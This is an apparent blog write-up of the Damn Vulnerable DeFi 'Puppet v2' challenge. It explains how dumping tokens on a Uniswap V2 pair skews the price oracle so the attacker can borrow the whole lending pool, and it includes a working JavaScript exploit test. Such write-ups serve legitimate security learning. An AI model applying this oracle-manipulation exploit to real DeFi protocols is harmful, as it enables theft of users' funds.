 ```yaml
---
layout: post
title: Damn Vulnerable DeFi - Puppet v2
---
```


## Description
The developers of the [last lending](https://www.damnvulnerabledefi.xyz/challenges/8.html) pool are saying that they've learned the lesson. And just released a new version!

Now they're using a [Uniswap v2 exchange](https://docs.uniswap.org/protocol/V2/introduction) as a price oracle, along with the recommended utility libraries. That should be enough.

You start with 20 ETH and 10000 DVT tokens in balance. The new lending pool has a million DVT tokens in balance. You know what to do ;)

## Solution
Just like the previous challenge, I had a lot of fun diving into the Unisawp contracts to solve this. Again, the pool uses Uniswap as its oracle. And again, we're going to manipulate the pricing
on uniswap to reduce the collateral required to borrow from the pool. With Uniswap V2 it's a bit
more roundabout, but the main idea is the same.

I found a handy function on the Uniswap V2 router, [swapExactTokensForETH](https://docs.uniswap.org/protocol/V2/reference/smart-contracts/router-02#swapexacttokensforeth). This is basically like `tokenToEthSwapInput` on the v1 contract. It allows us to exchange our tokens for ETH.

As the attacker, we can dump all our tokens for ETH using _swapExactTokensForETH_. This will drive down the exchange's oracle price:

```
UniswapV2Library.quote(amount.mul(10 ** 18), reservesToken, reservesWETH);
```

Then we can borrow the lending pool's entire balance. This exploit is pure Javascript:

```
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */
    await this.token.connect(attacker).approve(this.uniswapRouter.address, ATTACKER_INITIAL_TOKEN_BALANCE)
    await this.uniswapRouter.connect(attacker).swapExactTokensForETH(
        ATTACKER_INITIAL_TOKEN_BALANCE,
        10000,
        [
            this.token.address,
            this.weth.address,
        ],
        attacker.address,
        (await ethers.provider.getBlock('latest')).timestamp * 2
    )

    const attackerEthBalance = await ethers.provider.getBalance(attacker.address)
    await this.weth.connect(attacker).deposit({value: attackerEthBalance.sub(ethers.utils.parseEther("0.1"))})
    await this.weth.connect(attacker).approve(this.lendingPool.address, await this.weth.balanceOf(attacker.address))

    await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE)
});
```
